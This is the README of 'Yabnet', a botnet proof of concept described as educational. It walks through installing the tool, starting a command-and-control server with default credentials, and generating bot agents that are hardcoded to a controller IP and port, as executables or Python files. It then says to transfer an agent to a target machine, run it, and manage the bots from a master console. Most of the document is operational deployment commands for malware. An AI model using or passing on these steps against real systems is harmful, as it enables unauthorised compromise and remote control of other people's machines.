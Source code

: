 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction
**Yabnet is currently under construction.**

## Installation 

**Yabnet requires python3.7++
Due to laziness, yabnet currently requires to be installed in the /opt directory.**

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Operation 

###Server setup
```
<Change MASTERNAME and MASTERPASSWORD in /server/server.py>
<Default is admin:password>

python3 ./server/server.py
```

###Agent setup

There are two options to setup agents. One is to create a static executable through freezing. Another way is to just simply create a `.py` file.

**1. Freezing - Executable**
```
python3 ./agent/generator.py -i <server_ipaddress> -p <server_port> -f 
Example) python3 ./agent/generator.py -i 192.168.204.128 -p 5000 -f 
```

**2. Plain python file**
```
python3 ./agent/generator.py -i <server_ipaddress> -p <server_port>
Example) python3 ./agent/generator.py -i 192.168.204.128 -p 5000
```

**Transfer the agent file** 
Transfer either `/opt/yabnet/agent/dist/agent_deploy_staticx` or `/opt/yabnet/agent/agent_deploy.py` to the target machine and run it

###Master setup

After server and the agent is setup, launch the master console.
Default credential for master is `admin:password`
```
python3 ./master/master.py
console# login -r localhost -u <user> -p <password>
console# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

